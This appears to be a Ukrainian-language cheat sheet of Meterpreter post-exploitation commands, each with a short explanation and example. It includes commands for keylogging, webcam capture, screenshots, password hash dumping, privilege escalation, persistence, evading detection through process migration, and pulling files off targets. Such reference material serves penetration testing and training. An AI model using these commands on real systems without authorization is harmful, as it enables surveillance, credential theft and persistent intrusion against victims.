 
# Команди Meterpreter

Цей документ містить список основних команд Meterpreter з поясненнями українською мовою для ефективної роботи з сесіями.

## Основні команди

1. **help**  
   Виводить список доступних команд та короткі описи до них. Допомагає орієнтуватися в доступних функціях Meterpreter.  
   **Приклад**:  
   ```bash
   help
   ```

2. **sysinfo**  
   Показує основну інформацію про систему: ОС, версію, архітектуру. Корисно для визначення середовища цільової системи.  
   **Приклад**:  
   ```bash
   sysinfo
   ```

3. **getuid**  
   Показує, з яким користувачем зараз працюєте. Допомагає зрозуміти рівень доступу.  
   **Приклад**:  
   ```bash
   getuid
   ```

4. **background**  
   Переводить активну сесію Meterpreter у фоновий режим, дозволяючи продовжити роботу з іншими сесіями. Це корисно, коли потрібно переключитися між сесіями.  
   **Приклад**:  
   ```bash
   background
   ```

5. **sessions**  
   Показує список активних сесій та їх статус. Дозволяє керувати кількома сесіями одночасно.  
   **Приклад**:  
   ```bash
   sessions
   ```

6. **use**  
   Використовується для завантаження та використання додаткових модулів в Meterpreter. Дозволяє розширювати функціональність сесії.  
   **Приклад**:  
   ```bash
   use post/multi/gather/hashdump
   ```

7. **ls**  
   Виводить список файлів у поточному каталозі на цільовій системі. Потрібно для навігації по файловій системі.  
   **Приклад**:  
   ```bash
   ls
   ```

8. **cd**  
   Змінює поточний каталог на цільовій системі. Допомагає переміщатися між каталогами на цільовій системі.  
   **Приклад**:  
   ```bash
   cd /home/user
   ```

9. **pwd**  
   Показує поточний робочий каталог на цільовій системі. Зручна команда для визначення місцезнаходження у файловій системі.  
   **Приклад**:  
   ```bash
   pwd
   ```

10. **download**  
    Завантажує файл з цільової машини на вашу машину. Використовується для витягування файлів з системи.  
    **Приклад**:  
    ```bash
    download /home/user/secret_file.txt
    ```

11. **upload**  
    Завантажує файл з вашої машини на цільову машину. Корисно для передачі шкідливих файлів або інструментів.  
    **Приклад**:  
    ```bash
    upload /path/to/local/file /home/user/file.txt
    ```

12. **rm**  
    Видаляє файл або директорію на цільовій системі. Використовується для очищення або видалення шкідливих слідів.  
    **Приклад**:  
    ```bash
    rm /home/user/malicious_script.sh
    ```

13. **ps**  
    Показує список процесів, що виконуються на цільовій системі. Корисно для вивчення запущених процесів та можливих точок входу.  
    **Приклад**:  
    ```bash
    ps
    ```

14. **kill**  
    Завершує процес за його ідентифікатором (PID). Може бути корисною для завершення процесів, що блокують подальшу роботу.  
    **Приклад**:  
    ```bash
    kill 1234
    ```

15. **migrate**  
    Переміщає процес Meterpreter в інший процес на цільовій машині. Це допомагає уникнути виявлення, якщо поточний процес був виявлений або заблокований.  
    **Приклад**:  
    ```bash
    migrate 5678
    ```

16. **execute**  
    Виконує команди на цільовій системі. Допомагає запускати певні програми або скрипти.  
    **Приклад**:  
    ```bash
    execute -f /home/user/malicious_script.sh
    ```

17. **shell**  
    Відкриває стандартний командний рядок (shell) на цільовій системі (наприклад, /bin/bash для Linux або cmd.exe для Windows).  
    **Приклад**:  
    ```bash
    shell
    ```

18. **ipconfig**  
    Показує мережеву конфігурацію на цільовій машині (Windows).  
    **Приклад**:  
    ```bash
    ipconfig
    ```

19. **ifconfig**  
    Показує мережеву конфігурацію на цільовій машині (Linux).  
    **Приклад**:  
    ```bash
    ifconfig
    ```

20. **route**  
    Показує таблицю маршрутизації мережі на цільовій машині.  
    **Приклад**:  
    ```bash
    route
    ```

21. **netstat**  
    Показує активні мережеві з'єднання на цільовій машині.  
    **Приклад**:  
    ```bash
    netstat
    ```

22. **getsystem**  
    Спроба підвищити привілеї до рівня системного адміністратора (root/Administrator).  
    **Приклад**:  
    ```bash
    getsystem
    ```

23. **portfwd**  
    Налаштовує форвардинг портів, дозволяючи прослуховувати порти на локальній машині та передавати з’єднання на цільову систему.  
    **Приклад**:  
    ```bash
    portfwd add -l 8080 -p 80 -r 192.168.1.10
    ```

24. **sniffer**  
    Стартує sniffing для перехоплення пакетів на мережевому інтерфейсі.  
    **Приклад**:  
    ```bash
    sniffer -i eth0
    ```

25. **keyscan_start**  
    Стартує запис натискання клавіш на цільовій системі.  
    **Приклад**:  
    ```bash
    keyscan_start
    ```

26. **keyscan_stop**  
    Зупиняє запис натискання клавіш на цільовій системі.  
    **Приклад**:  
    ```bash
    keyscan_stop
    ```

27. **screenshot**  
    Знімає скріншот екрана цільової машини.  
    **Приклад**:  
    ```bash
    screenshot
    ```

28. **hashdump**  
    Виводить хеші паролів з системи Windows (необхідні права адміністратора).  
    **Приклад**:  
    ```bash
    hashdump
    ```

29. **webcam_snap**  
    Робить знімок з веб-камери цільової машини (якщо камера доступна).  
    **Приклад**:  
    ```bash
    webcam_snap
    ```

30. **persistence**  
    Створює стійку сесію, щоб автоматично знову підключитися до цільової машини після перезавантаження.  
    **Приклад**:  
    ```bash
    persistence -X
    ```

31. **exit**  
    Завершує сесію Meterpreter та виходить із неї.  
    **Приклад**:  
    ```bash
    exit
    ```

